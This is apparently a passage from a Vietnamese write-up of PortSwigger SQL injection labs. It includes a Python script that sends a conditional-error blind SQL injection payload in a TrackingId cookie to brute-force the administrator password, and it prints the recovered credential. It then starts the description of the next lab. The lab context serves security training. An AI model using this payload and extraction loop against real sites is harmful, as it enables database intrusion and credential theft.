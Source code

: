 ![image](images/lab-12/lab-12-3.png)

Tiếp theo, chúng ta cần lấy lần lượt từng kí tự trong password rồi so sánh với một kí tự để kiểm tra, nếu không có lỗi thì chúng ta sẽ lấy kí tự đó.

Chúng ta có thể viết script Python sau để nhanh chóng tìm được password.

```python
import requests
import string

url = "https://0a4000a50496098781107f6d00a500f7.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN SUBSTR(password, {i}, 1)='{j}' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '"}
        r = requests.get(url, cookies=cookie)

        if r.status_code == 200:
            password += j
            break

print(f"administrator:{password}") # administrator:anvjib2zbhzn8fb0sbnc

```

## Lab 13: [Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

> This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
>
> The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.
